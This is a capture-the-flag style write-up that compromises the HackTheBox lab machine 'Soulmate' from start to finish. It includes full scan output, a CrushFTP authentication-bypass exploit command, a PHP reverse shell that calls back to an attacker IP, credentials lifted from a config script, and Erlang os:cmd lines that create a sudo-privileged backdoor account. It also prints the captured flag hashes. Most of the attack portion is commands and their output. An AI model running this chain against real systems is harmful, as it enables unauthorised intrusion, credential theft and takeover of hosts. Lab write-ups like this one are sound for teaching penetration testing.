# Soulmate


To make things easy, I will set the ip variable to be the ip address of our box. This will make inputting commands easier as you don't have to remember what the target's IP address was. 

```
export ip=10.10.11.86
```

Start with nmap

`sudo nmap -vvv -p- --script default,vuln -sV -T5 -oA nmap/allports`

We get the following output

```
# Nmap 7.95 scan initiated Sat Nov 29 11:56:36 2025 as: /usr/lib/nmap/nmap -vvv -p- --script default,vuln -sV -T5 -oA nmap/allports 10.10.11.86
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.11.86
Host is up, received reset ttl 63 (0.027s latency).
Scanned at 2025-11-29 11:57:11 GMT for 104s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.9p1: 
|     	PACKETSTORM:179290	10.0	https://vulners.com/packetstorm/PACKETSTORM:179290	*EXPLOIT*
|     	1EEC8894-D2F7-547C-827C-915BE866875C	10.0	https://vulners.com/githubexploit/1EEC8894-D2F7-547C-827C-915BE866875C	*EXPLOIT*
|     	PACKETSTORM:173661	9.8	https://vulners.com/packetstorm/PACKETSTORM:173661	*EXPLOIT*
|     	F0979183-AE88-53B4-86CF-3AF0523F3807	9.8	https://vulners.com/githubexploit/F0979183-AE88-53B4-86CF-3AF0523F3807	*EXPLOIT*
|     	CVE-2023-38408	9.8	https://vulners.com/cve/CVE-2023-38408
|     	CVE-2023-28531	9.8	https://vulners.com/cve/CVE-2023-28531
|     	B8190CDB-3EB9-5631-9828-8064A1575B23	9.8	https://vulners.com/githubexploit/B8190CDB-3EB9-5631-9828-8064A1575B23	*EXPLOIT*
|     	8FC9C5AB-3968-5F3C-825E-E8DB5379A623	9.8	https://vulners.com/githubexploit/8FC9C5AB-3968-5F3C-825E-E8DB5379A623	*EXPLOIT*
|     	8AD01159-548E-546E-AA87-2DE89F3927EC	9.8	https://vulners.com/githubexploit/8AD01159-548E-546E-AA87-2DE89F3927EC	*EXPLOIT*
|     	33D623F7-98E0-5F75-80FA-81AA666D1340	9.8	https://vulners.com/githubexploit/33D623F7-98E0-5F75-80FA-81AA666D1340	*EXPLOIT*
|     	2227729D-6700-5C8F-8930-1EEAFD4B9FF0	9.8	https://vulners.com/githubexploit/2227729D-6700-5C8F-8930-1EEAFD4B9FF0	*EXPLOIT*
|     	0221525F-07F5-5790-912D-F4B9E2D1B587	9.8	https://vulners.com/githubexploit/0221525F-07F5-5790-912D-F4B9E2D1B587	*EXPLOIT*
|     	F8981437-1287-5B69-93F1-657DFB1DCE59	9.3	https://vulners.com/githubexploit/F8981437-1287-5B69-93F1-657DFB1DCE59	*EXPLOIT*
|     	CB2926E1-2355-5C82-A42A-D4F72F114F9B	9.3	https://vulners.com/githubexploit/CB2926E1-2355-5C82-A42A-D4F72F114F9B	*EXPLOIT*
|     	8DEE261C-33D4-5057-BA46-E4293B705BAE	9.3	https://vulners.com/githubexploit/8DEE261C-33D4-5057-BA46-E4293B705BAE	*EXPLOIT*
|     	6FD8F914-B663-533D-8866-23313FD37804	9.3	https://vulners.com/githubexploit/6FD8F914-B663-533D-8866-23313FD37804	*EXPLOIT*
|     	PACKETSTORM:190587	8.1	https://vulners.com/packetstorm/PACKETSTORM:190587	*EXPLOIT*
|     	FB2E9ED1-43D7-585C-A197-0D6628B20134	8.1	https://vulners.com/githubexploit/FB2E9ED1-43D7-585C-A197-0D6628B20134	*EXPLOIT*
|     	FA3992CE-9C4C-5350-8134-177126E0BD3F	8.1	https://vulners.com/githubexploit/FA3992CE-9C4C-5350-8134-177126E0BD3F	*EXPLOIT*
|     	EFD615F0-8F17-5471-AA83-0F491FD497AF	8.1	https://vulners.com/githubexploit/EFD615F0-8F17-5471-AA83-0F491FD497AF	*EXPLOIT*
|     	EC20B9C2-6857-5848-848A-A9F430D13EEB	8.1	https://vulners.com/githubexploit/EC20B9C2-6857-5848-848A-A9F430D13EEB	*EXPLOIT*
|     	EB13CBD6-BC93-5F14-A210-AC0B5A1D8572	8.1	https://vulners.com/githubexploit/EB13CBD6-BC93-5F14-A210-AC0B5A1D8572	*EXPLOIT*
|     	E543E274-C20A-582A-8F8E-F8E3F381C345	8.1	https://vulners.com/githubexploit/E543E274-C20A-582A-8F8E-F8E3F381C345	*EXPLOIT*
|     	E34FCCEC-226E-5A46-9B1C-BCD6EF7D3257	8.1	https://vulners.com/githubexploit/E34FCCEC-226E-5A46-9B1C-BCD6EF7D3257	*EXPLOIT*
|     	E24EEC0A-40F7-5BBC-9E4D-7B13522FF915	8.1	https://vulners.com/githubexploit/E24EEC0A-40F7-5BBC-9E4D-7B13522FF915	*EXPLOIT*
|     	DC1BB99A-8B57-5EE5-9AC4-3D9D59BFC346	8.1	https://vulners.com/githubexploit/DC1BB99A-8B57-5EE5-9AC4-3D9D59BFC346	*EXPLOIT*
|     	DA18D761-BB81-54B6-85CB-CFD73CE33621	8.1	https://vulners.com/githubexploit/DA18D761-BB81-54B6-85CB-CFD73CE33621	*EXPLOIT*
|     	D8974199-6B08-5895-9610-919F71468F23	8.1	https://vulners.com/githubexploit/D8974199-6B08-5895-9610-919F71468F23	*EXPLOIT*
|     	D52370EF-02EE-507D-9212-2D8EA86CBA94	8.1	https://vulners.com/githubexploit/D52370EF-02EE-507D-9212-2D8EA86CBA94	*EXPLOIT*
|     	CVE-2024-6387	8.1	https://vulners.com/cve/CVE-2024-6387
|     	CFEBF7AF-651A-5302-80B8-F8146D5B33A6	8.1	https://vulners.com/githubexploit/CFEBF7AF-651A-5302-80B8-F8146D5B33A6	*EXPLOIT*
|     	C6FB6D50-F71D-5870-B671-D6A09A95627F	8.1	https://vulners.com/githubexploit/C6FB6D50-F71D-5870-B671-D6A09A95627F	*EXPLOIT*
|     	C623D558-C162-5D17-88A5-4799A2BEC001	8.1	https://vulners.com/githubexploit/C623D558-C162-5D17-88A5-4799A2BEC001	*EXPLOIT*
|     	C5B2D4A1-8C3B-5FF7-B620-EDE207B027A0	8.1	https://vulners.com/githubexploit/C5B2D4A1-8C3B-5FF7-B620-EDE207B027A0	*EXPLOIT*
|     	C185263E-3E67-5550-B9C0-AB9C15351960	8.1	https://vulners.com/githubexploit/C185263E-3E67-5550-B9C0-AB9C15351960	*EXPLOIT*
|     	BDA609DA-6936-50DC-A325-19FE2CC68562	8.1	https://vulners.com/githubexploit/BDA609DA-6936-50DC-A325-19FE2CC68562	*EXPLOIT*
|     	BA3887BD-F579-53B1-A4A4-FF49E953E1C0	8.1	https://vulners.com/githubexploit/BA3887BD-F579-53B1-A4A4-FF49E953E1C0	*EXPLOIT*
|     	B1F444E0-F217-5FC0-B266-EBD48589940F	8.1	https://vulners.com/githubexploit/B1F444E0-F217-5FC0-B266-EBD48589940F	*EXPLOIT*
|     	92254168-3B26-54C9-B9BE-B4B7563586B5	8.1	https://vulners.com/githubexploit/92254168-3B26-54C9-B9BE-B4B7563586B5	*EXPLOIT*
|     	91752937-D1C1-5913-A96F-72F8B8AB4280	8.1	https://vulners.com/githubexploit/91752937-D1C1-5913-A96F-72F8B8AB4280	*EXPLOIT*
|     	90104C60-A887-5437-8521-545277685F55	8.1	https://vulners.com/githubexploit/90104C60-A887-5437-8521-545277685F55	*EXPLOIT*
|     	89F96BAB-1624-51B5-B09E-E771D918D1E6	8.1	https://vulners.com/githubexploit/89F96BAB-1624-51B5-B09E-E771D918D1E6	*EXPLOIT*
|     	81F0C05A-8650-5DE8-97E9-0D89F1807E5D	8.1	https://vulners.com/githubexploit/81F0C05A-8650-5DE8-97E9-0D89F1807E5D	*EXPLOIT*
|     	7C7167AF-E780-5506-BEFA-02E5362E8E48	8.1	https://vulners.com/githubexploit/7C7167AF-E780-5506-BEFA-02E5362E8E48	*EXPLOIT*
|     	79FE1ED7-EB3D-5978-A12E-AAB1FFECCCAC	8.1	https://vulners.com/githubexploit/79FE1ED7-EB3D-5978-A12E-AAB1FFECCCAC	*EXPLOIT*
|     	795762E3-BAB4-54C6-B677-83B0ACC2B163	8.1	https://vulners.com/githubexploit/795762E3-BAB4-54C6-B677-83B0ACC2B163	*EXPLOIT*
|     	774022BB-71DA-57C4-9B8F-E21D667DE4BC	8.1	https://vulners.com/githubexploit/774022BB-71DA-57C4-9B8F-E21D667DE4BC	*EXPLOIT*
|     	743E5025-3BB8-5EC4-AC44-2AA679730661	8.1	https://vulners.com/githubexploit/743E5025-3BB8-5EC4-AC44-2AA679730661	*EXPLOIT*
|     	73A19EF9-346D-5B2B-9792-05D9FE3414E2	8.1	https://vulners.com/githubexploit/73A19EF9-346D-5B2B-9792-05D9FE3414E2	*EXPLOIT*
|     	6E81EAE5-2156-5ACB-9046-D792C7FAF698	8.1	https://vulners.com/githubexploit/6E81EAE5-2156-5ACB-9046-D792C7FAF698	*EXPLOIT*
|     	6B78D204-22B0-5D11-8A0C-6313958B473F	8.1	https://vulners.com/githubexploit/6B78D204-22B0-5D11-8A0C-6313958B473F	*EXPLOIT*
|     	65650BAD-813A-565D-953D-2E7932B26094	8.1	https://vulners.com/githubexploit/65650BAD-813A-565D-953D-2E7932B26094	*EXPLOIT*
|     	649197A2-0224-5B5C-9C4E-B5791D42A9FB	8.1	https://vulners.com/githubexploit/649197A2-0224-5B5C-9C4E-B5791D42A9FB	*EXPLOIT*
|     	61DDEEE4-2146-5E84-9804-B780AA73E33C	8.1	https://vulners.com/githubexploit/61DDEEE4-2146-5E84-9804-B780AA73E33C	*EXPLOIT*
|     	608FA50C-AEA1-5A83-8297-A15FC7D32A7C	8.1	https://vulners.com/githubexploit/608FA50C-AEA1-5A83-8297-A15FC7D32A7C	*EXPLOIT*
|     	5D2CB1F8-DC04-5545-8BC7-29EE3DA8890E	8.1	https://vulners.com/githubexploit/5D2CB1F8-DC04-5545-8BC7-29EE3DA8890E	*EXPLOIT*
|     	5C81C5C1-22D4-55B3-B843-5A9A60AAB6FD	8.1	https://vulners.com/githubexploit/5C81C5C1-22D4-55B3-B843-5A9A60AAB6FD	*EXPLOIT*
|     	53BCD84F-BD22-5C9D-95B6-4B83627AB37F	8.1	https://vulners.com/githubexploit/53BCD84F-BD22-5C9D-95B6-4B83627AB37F	*EXPLOIT*
|     	4FB01B00-F993-5CAF-BD57-D7E290D10C1F	8.1	https://vulners.com/githubexploit/4FB01B00-F993-5CAF-BD57-D7E290D10C1F	*EXPLOIT*
|     	48603E8F-B170-57EE-85B9-67A7D9504891	8.1	https://vulners.com/githubexploit/48603E8F-B170-57EE-85B9-67A7D9504891	*EXPLOIT*
|     	4748B283-C2F6-5924-8241-342F98EEC2EE	8.1	https://vulners.com/githubexploit/4748B283-C2F6-5924-8241-342F98EEC2EE	*EXPLOIT*
|     	452ADB71-199C-561E-B949-FCDE6288B925	8.1	https://vulners.com/githubexploit/452ADB71-199C-561E-B949-FCDE6288B925	*EXPLOIT*
|     	331B2B7F-FB25-55DB-B7A4-602E42448DB7	8.1	https://vulners.com/githubexploit/331B2B7F-FB25-55DB-B7A4-602E42448DB7	*EXPLOIT*
|     	1FFDA397-F480-5C74-90F3-060E1FE11B2E	8.1	https://vulners.com/githubexploit/1FFDA397-F480-5C74-90F3-060E1FE11B2E	*EXPLOIT*
|     	1FA2B3DD-FC8F-5602-A1C9-2CF3F9536563	8.1	https://vulners.com/githubexploit/1FA2B3DD-FC8F-5602-A1C9-2CF3F9536563	*EXPLOIT*
|     	1F7A6000-9E6D-511C-B0F6-7CADB7200761	8.1	https://vulners.com/githubexploit/1F7A6000-9E6D-511C-B0F6-7CADB7200761	*EXPLOIT*
|     	1CF00BB8-B891-5347-A2DC-2C6A6BFF7C99	8.1	https://vulners.com/githubexploit/1CF00BB8-B891-5347-A2DC-2C6A6BFF7C99	*EXPLOIT*
|     	1AB9F1F4-9798-59A0-9213-1D907E81E7F6	8.1	https://vulners.com/githubexploit/1AB9F1F4-9798-59A0-9213-1D907E81E7F6	*EXPLOIT*
|     	179F72B6-5619-52B5-A040-72F1ECE6CDD8	8.1	https://vulners.com/githubexploit/179F72B6-5619-52B5-A040-72F1ECE6CDD8	*EXPLOIT*
|     	15C36683-070A-5CC1-B21F-5F0BF974D9D3	8.1	https://vulners.com/githubexploit/15C36683-070A-5CC1-B21F-5F0BF974D9D3	*EXPLOIT*
|     	1337DAY-ID-39674	8.1	https://vulners.com/zdt/1337DAY-ID-39674	*EXPLOIT*
|     	11F020AC-F907-5606-8805-0516E06160EE	8.1	https://vulners.com/githubexploit/11F020AC-F907-5606-8805-0516E06160EE	*EXPLOIT*
|     	0FC4BE81-312B-51F4-9D9B-66D8B5C093CD	8.1	https://vulners.com/githubexploit/0FC4BE81-312B-51F4-9D9B-66D8B5C093CD	*EXPLOIT*
|     	0B165049-2374-5E2A-A27C-008BEA3D13F7	8.1	https://vulners.com/githubexploit/0B165049-2374-5E2A-A27C-008BEA3D13F7	*EXPLOIT*
|     	08144020-2B5F-5EB9-9286-1ABD5477278E	8.1	https://vulners.com/githubexploit/08144020-2B5F-5EB9-9286-1ABD5477278E	*EXPLOIT*
|     	SSV:92579	7.5	https://vulners.com/seebug/SSV:92579	*EXPLOIT*
|     	1337DAY-ID-26576	7.5	https://vulners.com/zdt/1337DAY-ID-26576	*EXPLOIT*
|     	PACKETSTORM:189283	6.8	https://vulners.com/packetstorm/PACKETSTORM:189283	*EXPLOIT*
|     	CVE-2025-26465	6.8	https://vulners.com/cve/CVE-2025-26465
|     	9D8432B9-49EC-5F45-BB96-329B1F2B2254	6.8	https://vulners.com/githubexploit/9D8432B9-49EC-5F45-BB96-329B1F2B2254	*EXPLOIT*
|     	85FCDCC6-9A03-597E-AB4F-FA4DAC04F8D0	6.8	https://vulners.com/githubexploit/85FCDCC6-9A03-597E-AB4F-FA4DAC04F8D0	*EXPLOIT*
|     	1337DAY-ID-39918	6.8	https://vulners.com/zdt/1337DAY-ID-39918	*EXPLOIT*
|     	D104D2BF-ED22-588B-A9B2-3CCC562FE8C0	6.5	https://vulners.com/githubexploit/D104D2BF-ED22-588B-A9B2-3CCC562FE8C0	*EXPLOIT*
|     	CVE-2023-51385	6.5	https://vulners.com/cve/CVE-2023-51385
|     	C07ADB46-24B8-57B7-B375-9C761F4750A2	6.5	https://vulners.com/githubexploit/C07ADB46-24B8-57B7-B375-9C761F4750A2	*EXPLOIT*
|     	A88CDD3E-67CC-51CC-97FB-AB0CACB6B08C	6.5	https://vulners.com/githubexploit/A88CDD3E-67CC-51CC-97FB-AB0CACB6B08C	*EXPLOIT*
|     	65B15AA1-2A8D-53C1-9499-69EBA3619F1C	6.5	https://vulners.com/githubexploit/65B15AA1-2A8D-53C1-9499-69EBA3619F1C	*EXPLOIT*
|     	5325A9D6-132B-590C-BDEF-0CB105252732	6.5	https://vulners.com/gitee/5325A9D6-132B-590C-BDEF-0CB105252732	*EXPLOIT*
|     	530326CF-6AB3-5643-AA16-73DC8CB44742	6.5	https://vulners.com/githubexploit/530326CF-6AB3-5643-AA16-73DC8CB44742	*EXPLOIT*
|     	CVE-2023-48795	5.9	https://vulners.com/cve/CVE-2023-48795
|     	CNVD-2021-25272	5.9	https://vulners.com/cnvd/CNVD-2021-25272
|     	6D74A425-60A7-557A-B469-1DD96A2D8FF8	5.9	https://vulners.com/githubexploit/6D74A425-60A7-557A-B469-1DD96A2D8FF8	*EXPLOIT*
|     	CVE-2023-51384	5.5	https://vulners.com/cve/CVE-2023-51384
|     	CVE-2025-32728	4.3	https://vulners.com/cve/CVE-2025-32728
|     	CVE-2025-61985	3.6	https://vulners.com/cve/CVE-2025-61985
|     	CVE-2025-61984	3.6	https://vulners.com/cve/CVE-2025-61984
|     	B7EACB4F-A5CF-5C5A-809F-E03CCE2AB150	3.6	https://vulners.com/githubexploit/B7EACB4F-A5CF-5C5A-809F-E03CCE2AB150	*EXPLOIT*
|     	4C6E2182-0E99-5626-83F6-1646DD648C57	3.6	https://vulners.com/githubexploit/4C6E2182-0E99-5626-83F6-1646DD648C57	*EXPLOIT*
|_    	PACKETSTORM:140261	0.0	https://vulners.com/packetstorm/PACKETSTORM:140261	*EXPLOIT*
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-title: Did not follow redirect to http://soulmate.htb/
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| vulners: 
|   nginx 1.18.0: 
|     	3F71F065-66D4-541F-A813-9F1A2F2B1D91	8.8	https://vulners.com/githubexploit/3F71F065-66D4-541F-A813-9F1A2F2B1D91	*EXPLOIT*
|     	NGINX:CVE-2022-41741	7.8	https://vulners.com/nginx/NGINX:CVE-2022-41741
|     	DF041B2B-2DA7-5262-AABE-9EBD2D535041	7.8	https://vulners.com/githubexploit/DF041B2B-2DA7-5262-AABE-9EBD2D535041	*EXPLOIT*
|     	PACKETSTORM:167720	7.7	https://vulners.com/packetstorm/PACKETSTORM:167720	*EXPLOIT*
|     	NGINX:CVE-2021-23017	7.7	https://vulners.com/nginx/NGINX:CVE-2021-23017
|     	EDB-ID:50973	7.7	https://vulners.com/exploitdb/EDB-ID:50973	*EXPLOIT*
|     	B175E582-6BBF-5D54-AF15-ED3715F757E3	7.7	https://vulners.com/githubexploit/B175E582-6BBF-5D54-AF15-ED3715F757E3	*EXPLOIT*
|     	3D5EF267-25AF-5E36-885B-89F728833A86	7.7	https://vulners.com/githubexploit/3D5EF267-25AF-5E36-885B-89F728833A86	*EXPLOIT*
|     	25F34A51-EB79-5BBC-8262-6F1876067F04	7.7	https://vulners.com/githubexploit/25F34A51-EB79-5BBC-8262-6F1876067F04	*EXPLOIT*
|     	245ACDDD-B1E2-5344-B37D-5B9A0B0A1F0D	7.7	https://vulners.com/githubexploit/245ACDDD-B1E2-5344-B37D-5B9A0B0A1F0D	*EXPLOIT*
|     	1337DAY-ID-37837	7.7	https://vulners.com/zdt/1337DAY-ID-37837	*EXPLOIT*
|     	1337DAY-ID-36300	7.7	https://vulners.com/zdt/1337DAY-ID-36300	*EXPLOIT*
|     	00455CDF-B814-5424-952E-9088FBB2D42D	7.7	https://vulners.com/githubexploit/00455CDF-B814-5424-952E-9088FBB2D42D	*EXPLOIT*
|     	NGINX:CVE-2022-41742	7.1	https://vulners.com/nginx/NGINX:CVE-2022-41742
|     	NGINX:CVE-2025-53859	6.3	https://vulners.com/nginx/NGINX:CVE-2025-53859
|     	NGINX:CVE-2024-7347	5.7	https://vulners.com/nginx/NGINX:CVE-2024-7347
|     	NGINX:CVE-2025-23419	5.3	https://vulners.com/nginx/NGINX:CVE-2025-23419
|_    	PACKETSTORM:162830	0.0	https://vulners.com/packetstorm/PACKETSTORM:162830	*EXPLOIT*
|_http-csrf: Couldn't find any CSRF vulnerabilities.
4369/tcp open  epmd    syn-ack ttl 63 Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    ssh_runner: 38695
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 29 11:58:55 2025 -- 1 IP address (1 host up) scanned in 139.38 seconds
```
Trying to access the web application on Port 80 leads to the following screenshot, showing the hostname


Therefore we will now edit the `/etc/hosts` file to connect the hostname to the IP address

`10.10.11.86 soulmate.htb`

# VHOST enumeration

The following command was used to enumerate VHOSTs. VHOSTs is short for Virtual Hosts, and is used to host multiple domain names on one single server. 

`ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.soulmate.htb" -u http://soulmate.htb | tee ffuf_console.txt`

This leads to a large output of text output, which I have used the tee command to log the output into a text file called ffuf_console.txt. As it goes through all the potential hostnames in a given wordlist, the text file (and thus the console output) is large. 



Taking a snippet out of the output, we can see that most results have the following string: `Status: 302, Size: 154, Words: 4, Lines: 8, ` with various times of duration 



To figure out the true positive, I've ran a few grep commands; it turned out that all potential hostnames returend a 302 response so I could not filter it out that way, however filtering by size singles out `ftp.soulmate.htb`

`cat ffuf_console.txt | grep -v 154`



So I will add `ftp.soulmate.htb` to the `/etc/hosts` file so it looks like this:
 `10.10.11.86 soulmate.htb ftp.soulmate.htb`

Visiting the site leads to the login page of CrushFTP



A quick search of "crushftp exploit" on Google sows a few vulnerabilities, scrolling down a lot of it seems to regard authentication bypasses.



I have tried a fair few exploits, but was able to find success on this one. In my opinion, sometimes, if you don't know the version number of a potential software, I always go with any recent exploits that were found for the system; in this case my thought process was that an exploit found this year would probably work (no guarantees though)

So I tried using this exploit I found on GitHub. For any pentest exams, google dorking with the CVE ID and `site:github.com` can be wonderful because it can show up Proof of Concept (PoC) exploits. 

https://github.com/Immersive-Labs-Sec/CVE-2025-31161

githubauthbypass.png

First, I downloaded the exploit using git clone

`git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161`

After that, I moved to the exploit's directory and ran the following command without making any changes to the exploit code itself

`python3 cve-2025-31161.py --target_host ftp.soulmate.htb --new_user donchan91 --password donchan91 --port 80 
`




And I was able to login 




After playing around with the web application and the admin interface, I have found the following: 
http://ftp.soulmate.htb/WebInterface/UserManager/index.html



Looking at Ben's file access, we see the /webProd/ directory which shows the insides of the web application. If we can upload a .php file into this directory, we can achieve remote code execution in the form of .php. To do this, I will have to re-enter CrushFTP as ben, and upload a .php file. 

On the interface, click "Generate Random Password", copy the password generated, click "Use this" and then click "Save"



Log out of your account and log in as ben



I will now attempt to upload a reverse shell in .php format. The shell I will use is the popular php-reverse-shell.php by pentestmonkey. 

As usual, find out your internal IP address on the tun0 interface, and set it in the $ip variable. Also set the $port variable to the port that you're listening to, so the $ip and the $port variable will look something like this:

```
$ip = '10.10.15.245';  // CHANGE THIS
$port = 14514;       // CHANGE THIS
```

Set up a listener using nc. I recommend using rlwrap as it makes the resultant reverse shell a lot easier to manipulate

`rlwrap nc -lvnp 14514`

Access http://soulmate.htb/donchan91.php (or whatever you've named your shell to). On the web app, it will look like it's going to time out, however, on netcat it will return a shell as www-data




## Enum as www-data

Inside `/var/www/soulmate.htb/config/config.php` we have the following line:


```
        // Create default admin user if not exists
        $adminCheck = $this->pdo->prepare("SELECT COUNT(*) FROM users WHERE username = ?");
        $adminCheck->execute(['admin']);
        
        if ($adminCheck->fetchColumn() == 0) {
            $adminPassword = password_hash('Crush4dmin990', PASSWORD_DEFAULT);
            $adminInsert = $this->pdo->prepare("
                INSERT INTO users (username, password, is_admin, name) 
                VALUES (?, ?, 1, 'Administrator')
            ");
            $adminInsert->execute(['admin', $adminPassword]);
        }
    }


```


This was a dud. I enumerated processes which are running using the following command:

`ps aux`

This led to an interesting output as shown in the screenshot below: 


The full process is as follows:
`/usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript`

This is interesting because erlang on port 4369 was found on initial nmap and that enumeration showed ssh. 

I didn't know if the `start.escript` file was a binary or not (skill issue I know) so to be on the safe side, I used the `strings` command to display strings in the file. 

`strings /usr/local/lib/erlang_login/start.escript`



```
#!/usr/bin/env escript
%%! -sname ssh_runner
main(_) ->
    application:start(asn1),
    application:start(crypto),
    application:start(public_key),
    application:start(ssh),
    io:format("Starting SSH daemon with logging...~n"),
    case ssh:daemon(2222, [
        {ip, {127,0,0,1}},
        {system_dir, "/etc/ssh"},
        {user_dir_fun, fun(User) ->
            Dir = filename:join("/home", User),
            io:format("Resolving user_dir for ~p: ~s/.ssh~n", [User, Dir]),
            filename:join(Dir, ".ssh")
        end},
        {connectfun, fun(User, PeerAddr, Method) ->
            io:format("Auth success for user: ~p from ~p via ~p~n",
                      [User, PeerAddr, Method]),
            true
        end},
        {failfun, fun(User, PeerAddr, Reason) ->
            io:format("Auth failed for user: ~p from ~p, reason: ~p~n",
                      [User, PeerAddr, Reason]),
            true
        end},
        {auth_methods, "publickey,password"},
        {user_passwords, [{"ben", "HouseH0ldings998"}]},
        {idle_time, infinity},
        {max_channels, 10},
        {max_sessions, 10},
        {parallel_login, true}
    ]) of
        {ok, _Pid} ->
            io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
        {error, Reason} ->
            io:format("Failed to start SSH daemon: ~p~n", [Reason])
    end,
    receive
        stop -> ok
    end.
```

## Shell as ben

We have a password in plaintext, ben:HouseH0ldings998

Authenticate into the host using these creds

`ssh ben@soulmate.htb`




## Enum as ben

Now we can better internally enumerate the Erlang ssh thing. 

`nc -nv 127.0.0.1 2222`




This shows the banner `SSH-2.0-Erlang/5.2.9`


So it turned out it was NOT VULNERABLE to the following: 

<del> This has the following vulnerability: 

CVE-2025-32433

https://github.com/platsecurity/CVE-2025-32433



In the `build_channel_request` function, you can specify the payload. The default is set to `'file:write_file("/lab.txt", <<"pwned">>).'` which will write lab.txt with root privileges. Erlang has the ability to execute arbitrary OS commands, so we will use this to get a reverse shell</del>

Instead I have found that authing into the ssh on port 2222 returned an Erlang Eshell by accessing ssh internally. So from the ben account on the box, I used the following command

`ssh ben@localhost -p 2222`

This returned the following shell 


I've noticed that the shell was laggy (and so was the entire box for some reason) so I wanted to authenticate from my own Kali Linux VM. To do this, I used some port forwarding. 

First I used this command: 

`ssh -L localhost:810:localhost:2222 ben@soulmate.htb`

I always found SSH port forwarding really confusing, so I wanted to explain. `-L` option is for local port forwarding, meaning that from my Kali, I want to gain access to things as though I was `soulmate.htb`, because only `soulmate.htb` can access Port 2222. `localhost:810` specified that the Kali is going to receive traffic to Port 810. `localhost:2222` on the other hand me requesting access to Port 2222 of the target. `ben@soulmate.htb` specifies which host and which username I'm going to use. 

This now means that I can interact with Port 810 of Kali as though it was Port 2222 on the target machine. 

So from my Kali, I will log into the Port 2222 SSH using the following command: 

`ssh ben@localhost -p 810`

This gives me interesting access permissions (screenshot below):



After this, I have tried numerous times to create a reverse shell that calls back to my account, for many reasons none of my attempts worked and it caused me a lot of frustration, especially as I've had callback but couldn't figure out the faff of the Erlang OS command execution and fighting over single and double quotes. It was particularly frustrating as I've had callback on my netcat listener. Rant over. Anyway.....



When reverse shells are janky (or outright don't work in my case, I create accounts and authenticate this way)

First I added my username using the adduser command

`os:cmd("adduser donchan91").`



Then I added a password and also set sudo privileges using the following commands:

`os:cmd("echo 'donchan91:gjhurie2sm2uiroa' | chpasswd").`

`os:cmd("usermod -aG sudo donchan91").`



With this all done, it was time for the moment of truth. I am going to log in using my `donchan91` username.

`ssh donchan91@soulmate.htb`



And now just a matter of switching to root

`sudo -s`



User hash: b9de3e5ec6fad326b54d8e60c0e18b7f
Root hash: 1cd673944dcbc8840c6aa7d938856a52

This is the landing page 


In this page, there is a login page and a page to register accounts. I will visit the register page to create a test accound


And now at the login page on http://soulmate.htb/login.php we can authenticate





#Enumerating EPMD

The following command could be used to enumerate EPMD

`echo -n -e "\x00\x01\x6e" | nc -nv $ip 4369`



If we can leak the authetication cookie, it is possible to achieve Remote Code Execution on the host. 

https://angelica.gitbook.io/hacktricks/network-services-pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd

